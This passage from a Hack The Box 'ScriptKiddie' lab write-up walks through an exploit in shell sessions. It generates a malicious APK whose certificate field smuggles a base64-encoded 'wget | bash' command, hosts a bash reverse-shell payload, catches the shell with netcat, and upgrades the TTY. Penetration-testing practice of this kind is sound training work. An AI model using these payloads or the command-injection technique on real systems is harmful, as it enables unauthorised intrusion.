 Second stage payload downloaded and executed by the initial one:

```bash
bash -i >& /dev/tcp/10.10.14.14/443 0>&1
```

Generated the malicious apk file and hosted the second stage payload:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ python3 49491.py
[+] Manufacturing evil apkfile
Payload: wget -O - 10.10.14.14/revshell.sh | bash
-dname: CN='|echo d2dldCAtTyAtIDEwLjEwLjE0LjE0L3JldnNoZWxsLnNoIHwgYmFzaA== | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmps70hg8mz/evil.apk
Do: msfvenom -x /tmp/tmps70hg8mz/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Uploaded the malicious apk to the application and obtained a reverse shell: 

![Pasted image 20210421132429.png](../../zzz_res/attachments/Pasted_image_20210421132429.png)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ sudo nc -nlvp 443                                                        
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 56612
bash: cannot set terminal process group (895): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$ hostname
hostname
scriptkiddie
kid@scriptkiddie:~/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ ^Z
zsh: suspended  sudo nc -nlvp 443

┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ stty raw -echo; fg
[1]  + continued  sudo nc -nlvp 443

kid@scriptkiddie:~/html$ export TERM=xterm
kid@scriptkiddie:~/html$ stty rows 60 columns 235
```